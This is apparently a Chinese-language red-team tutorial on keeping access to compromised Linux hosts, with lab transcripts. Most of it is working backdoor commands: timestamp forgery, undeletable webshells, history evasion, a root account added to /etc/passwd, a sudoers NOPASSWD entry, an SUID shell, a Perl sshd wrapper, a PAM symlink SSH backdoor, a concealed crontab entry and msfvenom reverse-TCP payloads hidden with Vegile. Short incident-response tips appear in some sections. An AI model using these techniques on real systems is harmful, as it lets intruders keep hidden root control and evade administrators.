

# 权限维持 - Linux

## 修改文件属性

### 文件创建时间

通常在进行应急响应排查的时候会通过文件的修改时间来判断是否为后门，比如对比`shell.php`和`index.php`的修改时间是否相差过大

可以通过`touch`来改变创建时间

```bash
root@sunset-ubuntu:/home/sunset/Desktop/test/www# ls -al
total 8
drwxr-xr-x 2 root root 4096 Mar 27 20:38 .
drwxr-xr-x 6 root root 4096 Mar  8 12:52 ..
-rw-r--r-- 1 root root    0 Mar 27 20:29 index.php
-rw-r--r-- 1 root root    0 Mar 27 20:38 shell.php
```

```bash
root@sunset-ubuntu:/home/sunset/Desktop/test/www# touch -r index.php shell.php 
root@sunset-ubuntu:/home/sunset/Desktop/test/www# ls -al
total 8
drwxr-xr-x 2 root root 4096 Mar 27 20:38 .
drwxr-xr-x 6 root root 4096 Mar  8 12:52 ..
-rw-r--r-- 1 root root    0 Mar 27 20:29 index.php
-rw-r--r-- 1 root root    0 Mar 27 20:29 shell.php
```

### 文件锁定

通过`chattr`来锁定文件不被删除，通过`rm -rf`会提示无法删除

```bash
root@sunset-ubuntu:/home/sunset/Desktop/test/www# chattr +i shell.php 
root@sunset-ubuntu:/home/sunset/Desktop/test/www# rm -rf shell.php 
rm: cannot remove 'shell.php': Operation not permitted
```

查看属性及删除属性

```bash
root@sunset-ubuntu:/home/sunset/Desktop/test/www# lsattr shell.php 
----i---------e------- shell.php
root@sunset-ubuntu:/home/sunset/Desktop/test/www# chattr -i shell.php 
root@sunset-ubuntu:/home/sunset/Desktop/test/www# rm -rf shell.php 
```

### 历史操作命令

在执行命令时，命令会被记录到家目录的`.history`文件中

1. 关闭当前`shell`会话历史记录
    
    ```bash
    <space> set +o history
    ```
    
    恢复命令历史记录
    
    ```bash
    set -o history
    ```
    
2. 删除指定命令，可以通过配合`grep`等命令来删除特定命令
    
    ```bash
    history -d <number>
    ```
    

### /etc/passwd 写入

通过写入`/etc/passwd`添加超级管理员用户

```bash
echo 'hack:zSZ7Whrr8hgwY:0:0::/root/:/bin/bash' >>/etc/passwd
```

密码：`123456`

创建密码`momaek`

```bash
$perl -le 'print crypt("momaek","salt")'
savbSWc4rx8NY
```

### /etc/sudoer 写入

给普通用户写入拥有`root`用户的权限即可，给 `fredf`用户添加无密码以`root`身份执行命令

```bash
 fredf ALL=(ALL) NOPASSWD: ALL
```

## SUID 后门

当一个文件所属主的`x`标注位`s`时候，且文件属主是`root`时，当执行文件时，其实是以`root`身份执行的

`SUID`权限仅对二进制程序有效，执行者对于该权限需要具有`x`的可执行权限，仅在执行该程序的过程总有效，在执行过程中执行者将具有该程序拥有者的权限

创建具有`SUID`权限的文件

```bash
root@sunset-ubuntu:/home/sunset/Desktop/test# cp /bin/bash ./.woot
root@sunset-ubuntu:/home/sunset/Desktop/test# chmod 4755 .woot 
root@sunset-ubuntu:/home/sunset/Desktop/test# ls -al .woot 
-rwsr-xr-x 1 root root 1446024 Mar 28 00:20 .woot
```

以一般用户运行

```bash
sunset@sunset-ubuntu:~/Desktop/test$ ./.woot -p
.woot-5.2# id
uid=1000(sunset) gid=1000(sunset) euid=0(root) groups=1000(sunset),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin)
```

寻找拥有`SUID`的文件

```bash
find / -perm -u=s -type f 2>/dev/null
```

## SSH 后门

### SSH wrapper

判断连接来源端口，将恶意端口来源内容重定向到`/bin/sh`

```bash
root@sunset-ubuntu:/usr/sbin# mv sshd ../bin/
root@sunset-ubuntu:/usr/sbin# echo '#!/usr/bin/perl' >sshd
root@sunset-ubuntu:/usr/sbin# echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
root@sunset-ubuntu:/usr/sbin# echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
root@sunset-ubuntu:/usr/sbin# chmod u+x sshd
```

在攻击机执行

```bash
socat STDIO TCP4:target_ip:22,sourceport=13377
whoami
xxxx.....
```

(这里没复现成功，提示`Invalid SSH identification string.`)

参考链接：https://cn-sec.com/archives/2522813.html

1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆。

2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录。

应急响应：正常的sshd文件时ELF格式，后门时`perl`文件格式，使用`file`就可以发现

```bash
root@sunset-ubuntu:/usr/sbin# file sshd 
sshd: Perl script text executable
root@sunset-ubuntu:/usr/sbin# file ../bin/sshd
../bin/sshd: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=294ae10fa991304379dd98758cefb59e8a86ac38, for GNU/Linux 3.2.0, stripped
```

```bash
root@sunset-ubuntu:/usr/sbin# which sshd
/usr/sbin/sshd
root@sunset-ubuntu:/usr/sbin# cat /usr/sbin/sshd
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^.4/);
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV,
root@sunset-ubuntu:/usr/sbin# file /usr/sbin/sshd
/usr/sbin/sshd: Perl script text executable
```

### SSH 软连接后门

SSH允许通过PAM进行认证，限制：`sshd_config` 的 `UsePAM` 为 yes



在Linux中存在模块`pam_rootok.os` ，该模块允许uid为0的用户直接通过验证而不是需要输入用户名密码

排查文件中是否存在`pam_rootok.os` 这个模块

```bash
root@sunset-ubuntu:~# cd /etc/pam.d/
root@sunset-ubuntu:/etc/pam.d# find ./ | xargs grep "pam_rootok"
grep: ./: Is a directory
./runuser:auth          sufficient      pam_rootok.so
./su:auth       sufficient pam_rootok.so
./su:# permitted earlier by e.g. "sufficient pam_rootok.so").
./chfn:auth             sufficient      pam_rootok.so
./chsh:auth             sufficient      pam_rootok.so
```

这四个都可以用来生成软连接后门，这里使用软连接（这里**欺骗了系统**，使得在执行 `/tmp/su` 时，实际使用的是 `su` 的 PAM 认证方式，而 `/tmp/su` 本质上是 `sshd` 的软链接。）

```bash
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888
```

攻击机操作：

```bash
 ⚡ root@kali  ~  ssh root@192.168.111.170 -p 888                     
root@192.168.111.170's password: <-随便输入->
Last login: Fri Mar 28 10:00:42 2025 from 127.0.0.1
root@sunset-ubuntu:~# exit
```

应急响应排查：

通过查看网络判断后门

```bash
root@sunset-ubuntu:/etc/pam.d# ss -anptu
Netid                State                 Recv-Q                Send-Q                                          Local Address:Port                                           Peer Address:Port                 Process                                                                                                                                                                                                         
udp                  UNCONN                0                     0                                                     0.0.0.0:54748                                               0.0.0.0:*                     users:(("avahi-daemon",pid=1020,fd=14))                                                                                                                                                                        
udp                  UNCONN                0                     0                                                  127.0.0.54:53                                                  0.0.0.0:*                     users:(("systemd-resolve",pid=737,fd=16))                                                                                                                                                                      
udp                  UNCONN                0                     0                                               127.0.0.53%lo:53                                                  0.0.0.0:*                     users:(("systemd-resolve",pid=737,fd=14))                                                                                                                                                                      
udp                  ESTAB                 0                     0                                       192.168.111.170%ens33:68                                          192.168.111.254:67                    users:(("NetworkManager",pid=1134,fd=26))                                                                                                                                                                      
udp                  UNCONN                0                     0                                                     0.0.0.0:5353                                                0.0.0.0:*                     users:(("avahi-daemon",pid=1020,fd=12))                                                                                                                                                                        
udp                  UNCONN                0                     0                                                        [::]:55547                                                  [::]:*                     users:(("avahi-daemon",pid=1020,fd=15))                                                                                                                                                                        
udp                  UNCONN                0                     0                                                        [::]:5353                                                   [::]:*                     users:(("avahi-daemon",pid=1020,fd=13))                                                                                                                                                                        
tcp                  LISTEN                0                     128                                                   0.0.0.0:888                                                 0.0.0.0:*                     users:(("su",pid=3305,fd=3))                                                                                                                                                                                   
tcp                  LISTEN                0                     4096                                            127.0.0.53%lo:53                                                  0.0.0.0:*                     users:(("systemd-resolve",pid=737,fd=15))                                                                                                                                                                      
tcp                  LISTEN                0                     4096                                                127.0.0.1:631                                                 0.0.0.0:*                     users:(("cupsd",pid=1652,fd=7))                                                                                                                                                                                
tcp                  LISTEN                0                     4096                                               127.0.0.54:53                                                  0.0.0.0:*                     users:(("systemd-resolve",pid=737,fd=17))                                                                                                                                                                      
tcp                  ESTAB                 0                     0                                             192.168.111.170:888                                         192.168.111.162:37940                 users:(("su",pid=3543,fd=5))                                                                                                                                                                                   
tcp                  LISTEN                0                     128                                                      [::]:888                                                    [::]:*                     users:(("su",pid=3305,fd=4))                                                                                                                                                                                   
tcp                  LISTEN                0                     511                                                         *:80                                                        *:*                     users:(("apache2",pid=1719,fd=4),("apache2",pid=1718,fd=4),("apache2",pid=1717,fd=4),("apache2",pid=1716,fd=4),("apache2",pid=1715,fd=4),("apache2",pid=1704,fd=4))                                            
tcp                  LISTEN                0                     4096                                                        *:22                                                        *:*                     users:(("sshd",pid=3289,fd=3),("systemd",pid=1,fd=190))                                                                                                                                                        
tcp                  LISTEN                0                     4096                                                    [::1]:631                                                    [::]:*                     users:(("cupsd",pid=1652,fd=6))                                                                                                                                                                                
tcp                  ESTAB                 0                     52                                   [::ffff:192.168.111.170]:22                                   [::ffff:192.168.111.1]:60278                 users:(("sshd",pid=2656,fd=4))                                                                                                                                                                  
```

检查登陆日志（ubuntu的系统登录日志为`auth.log`，centos为`secure`），可以通过检查通过非`sshd`登录的条目

```bash
root@sunset-ubuntu:/etc/pam.d# tail -n 20 /var/log/auth.log
2025-03-28T09:59:43.015246+08:00 sunset-ubuntu sshd[3289]: Server listening on :: port 22.
2025-03-28T10:00:17.954499+08:00 sunset-ubuntu su[3305]: Server listening on 0.0.0.0 port 888.
2025-03-28T10:00:17.954897+08:00 sunset-ubuntu su[3305]: Server listening on :: port 888.
2025-03-28T10:00:42.707326+08:00 sunset-ubuntu su[3307]: Accepted password for root from 127.0.0.1 port 44758 ssh2
2025-03-28T10:00:42.709283+08:00 sunset-ubuntu su[3307]: pam_unix(su:session): session opened for user root(uid=0) by root(uid=0)
2025-03-28T10:00:48.241244+08:00 sunset-ubuntu su[3307]: Received disconnect from 127.0.0.1 port 44758:11: disconnected by user
2025-03-28T10:00:48.241771+08:00 sunset-ubuntu su[3307]: Disconnected from user root 127.0.0.1 port 44758
2025-03-28T10:00:48.241886+08:00 sunset-ubuntu su[3307]: pam_unix(su:session): session closed for user root
2025-03-28T10:01:04.997727+08:00 sunset-ubuntu su[3324]: Accepted password for root from 192.168.111.162 port 55180 ssh2
2025-03-28T10:01:05.000187+08:00 sunset-ubuntu su[3324]: pam_unix(su:session): session opened for user root(uid=0) by root(uid=0)
2025-03-28T10:01:42.226404+08:00 sunset-ubuntu su[3324]: Received disconnect from 192.168.111.162 port 55180:11: disconnected by user
2025-03-28T10:01:42.226717+08:00 sunset-ubuntu su[3324]: Disconnected from user root 192.168.111.162 port 55180
2025-03-28T10:01:42.226781+08:00 sunset-ubuntu su[3324]: pam_unix(su:session): session closed for user root
2025-03-28T10:01:49.115697+08:00 sunset-ubuntu sshd[3340]: Connection closed by authenticating user root 192.168.111.162 port 43534 [preauth]
2025-03-28T10:05:01.008936+08:00 sunset-ubuntu CRON[3472]: pam_unix(cron:session): session opened for user root(uid=0) by root(uid=0)
2025-03-28T10:05:01.013647+08:00 sunset-ubuntu CRON[3472]: pam_unix(cron:session): session closed for user root
2025-03-28T10:09:01.029525+08:00 sunset-ubuntu CRON[3489]: pam_unix(cron:session): session opened for user root(uid=0) by root(uid=0)
2025-03-28T10:09:01.035854+08:00 sunset-ubuntu CRON[3489]: pam_unix(cron:session): session closed for user root
2025-03-28T10:10:03.462953+08:00 sunset-ubuntu su[3543]: Accepted password for root from 192.168.111.162 port 37940 ssh2
2025-03-28T10:10:03.466508+08:00 sunset-ubuntu su[3543]: pam_unix(su:session): session opened for user root(uid=0) by root(uid=0)
```

### SSH 公钥免密

不做解释

### SSH 其他后门

https://blog.csdn.net/qq_63855540/article/details/141710815

https://www.cnblogs.com/-mo-/p/12337766.html

## Cron后门

也就是计划任务，通过计划任务来反弹`shell`

创建隐藏的`Cron`后门

```bash
(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.sh;/bin/bash --noprofile -i')|crontab -
```

但是很容易被发现

```bash
root@sunset-ubuntu:~# crontab -l
*/1 * * * * /bin/bash /tmp/1.sh;/bin/bash --noprofile -i
```

可以通过，来混淆`crontab -l` 的输出（在Ubuntu24.04中不能混淆`contab -l`了）

```bash
(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.sh;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```

应急响应：通过`crontab -e`可以查看；假如是反弹shell的计划任务，嗯可以在网络连接中看到，然后通过进程ID来找到计划任务

## Vegile

是一个工具，通常用于渗透测试中的权限维持，属于预加载型动态链接库后门

```bash
 ./Vegile -h
  _____         _ _ 
 |  |  |___ ___|_| |___ 
 |  |  | -_| . | | | -_| 
  \___/|___|_  |_|_|___| v1.0
           |___| 
  _ 
 |  Usage: Vegile --h 
 |         Vegile --u [name_door] example : vnm --u backdoor  
 |         Vegile --i [name_door] example : vnm --i rootkit  
 | 
 |  Vegile is a tool for post exploitation in linux, 
 |  this tool will setting up your backdoor/rootkits 
 |  when backdoor already setup it will be hidden,unlimited and transparent.
 |  Even when  it killed,it will re-run again
 |  There always be a process which while run another process,
 |_ So we can assume that this process is unstoppable like a Ghost in The Shell
```

两种用法

```bash
./Vegile --u 无限复制你的 metasploit 会话，即使他被 kill，依然可以再次运行
./Vegile --i fengzilin-ghos t
```

例子：假如你现在通过`MSF`获取到了一台Ubuntu主机的权限，并且在`MSF`中有会话

```bash
[*] Started reverse TCP handler on 192.168.111.162:4444 
[*] Sending stage (3045380 bytes) to 192.168.111.170
[*] Meterpreter session 1 opened (192.168.111.162:4444 -> 192.168.111.170:55100) at 2025-03-28 08:20:52 -0400

meterpreter > sysinfo
Computer     : 192.168.111.170
OS           : Ubuntu 24.04 (Linux 6.11.0-19-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

现在通过`msfvenom`创建一个新的木马

```bash
⚡ root@kali  ~/Desktop/test/test  msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.111.162 lport=4443 -f elf -o two 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: two
```

将其上传到靶机

```bash
meterpreter > upload two
[*] Uploading  : /root/Desktop/test/test/two -> two
[*] Uploaded -1.00 B of 250.00 B (-0.4%): /root/Desktop/test/test/two -> two
[*] Completed  : /root/Desktop/test/test/two -> two
```

新开一个`msfconsole`

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lport 4443
lport => 4443
msf6 exploit(multi/handler) > set lhost 192.168.111.162
lhost => 192.168.111.162
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.111.162:4443 
```

通过第一个会话上传`Vegile`

```bash
ls -al
total 76
drwxr-xr-x 5 root root  4096 Mar 28 20:10 .
drwxr-xr-x 7 root root  4096 Mar 28 20:26 ..
drwxr-xr-x 8 root root  4096 Mar 28 20:05 .git
-rw-r--r-- 1 root root 34914 Mar 28 20:05 LICENSE.md
-rw-r--r-- 1 root root  3584 Mar 28 20:05 README.md
-rwxr-xr-x 1 root root 13024 Mar 28 20:05 Vegile
drwxr-xr-x 2 root root  4096 Mar 28 20:05 lib
-rw-r--r-- 1 root root     0 Mar 28 20:10 shell.php
drwxr-xr-x 2 root root  4096 Mar 28 20:10 tmp
```

通过`Vegile` 创建无文件木马，使用之前上传`two`

```bash
chmod +x ../two
./Vegile --i ../two
./Vegile: line 286: resize: command not found
TERM environment variable not set.

  _____         _ _   
 |  |  |___ ___|_| |___ 
 |  |  | -_| . | | | -_| 
  \___/|___|_  |_|_|___| v1.0
           |___| 
 
   Vegile is a tool for post exploitation in linux, 
   it will be hidden,unstoppable and transparent your process like a Ghost in The Shell,

 Create Inject Point for create hidden process 

 | 
 | 
 |_ 
    + Clean old config in temporary folder 

    + Create a file config 

    + Settings libprocess for spesific rootkit/backdoor
    
    + Setup and Compile libprocess  

    + Move libprocess to local libraries  

    + Load libprocess for get hidden process  

    + Inject Point for hidden Process Complete 

  Create Inject Point Success , Press any key to exit 
```


可以看到第二个`msfconsole`建立连接了


将`Vegile`和`two`进行删除，MSF进程依旧在

```bash
rm -rf /Vegile
rm two
```

```bash
./Vegile --u 无限复制你的 metasploit 会话，即使他被 kill，依然可以再次运行
./Vegile --i fengzilin-ghos t
```

## 其他

还有PAM（Pluggable Authentication Module，可插拔认证模块）

https://www.cnblogs.com/-mo-/p/12337766.html

https://www.cnblogs.com/yuy0ung/articles/18591381

https://github.com/ffffffff0x/1earn/blob/master/1earn/Security/RedTeam/%E5%90%8E%E6%B8%97%E9%80%8F/%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81.md#%E5%90%AF%E5%8A%A8%E9%A1%B9
